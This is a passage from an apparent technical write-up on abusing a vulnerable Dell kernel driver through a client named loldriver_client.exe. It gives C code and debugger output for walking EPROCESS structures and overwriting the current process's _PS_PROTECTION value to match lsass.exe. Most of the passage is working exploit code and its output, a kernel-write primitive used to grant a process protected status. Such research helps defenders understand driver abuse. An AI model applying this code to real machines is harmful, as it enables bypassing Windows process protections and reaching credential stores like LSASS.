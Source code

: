 We can run this with a debugger hooked up to check if the read and offsets are correct.
```c
.\loldriver_client.exe
[+] Added privilege
PID: 4
Pointer: ffff8b064c68c040
[+] System eproc value: 0xffff8b064c68c040
[+] Reading value from: 0xFFFF8B064C68C218
[+] ForwardLinked value: 0xFFFF8B064C7A9258
[+] New EProcess Value: 0xFFFF8B064C7A9080
... snip ...
[+] EProcess Value for running process: 0xFFFF8B0652D3C080

--- debuger ---
PROCESS ffff8b0652d3c080
    SessionId: none  Cid: 26d0    Peb: a488481000  ParentCid: 0550
    DirBase: 1969b7000  ObjectTable: ffffe406a567a680  HandleCount:  67.
    Image: loldriver_client.exe
```

Now we can read the 8 bytes which will include the protection level and update the process to be the same level as lsass.exe

```
+0x5fa Protection       : _PS_PROTECTION
```

```c
typedef union {
	struct 
	{
		char Protection;
		uint8_t padding[7];
	};
	QWORD qword;
} ProtectionQword;

	ProtectionQword protectionqword = { 0 };
	protectionqword.qword =  DellRead(current_eproc + (QWORD)Protection_offset);

	printf("Proteciton qword: 0x%016llx\n", protectionqword.qword);
	printf("Current protection level: 0x%X (%c)\n", protectionqword.Protection, protectionqword.Protection);

	protectionqword.Protection = 'A';

	DellWrite(current_eproc + (QWORD)Protection_offset, protectionqword.qword);
	printf("Written data.\n");

	getchar();
```

Output:
```c
[+] EProcess Value for running process: 0xFFFF8B0652872080
Proteciton qword: 0x00000040c0000000
Current protection level: 0x0 ( )
Written data.

--- debugger ---
0: kd> dt nt!_PS_PROTECTION 0xFFFF8B0652872080+0x5fa
   +0x000 Level            : 0x41 'A'
   +0x000 Type             : 0y001
   +0x000 Audit            : 0y0
   +0x000 Signer           : 0y0100
```
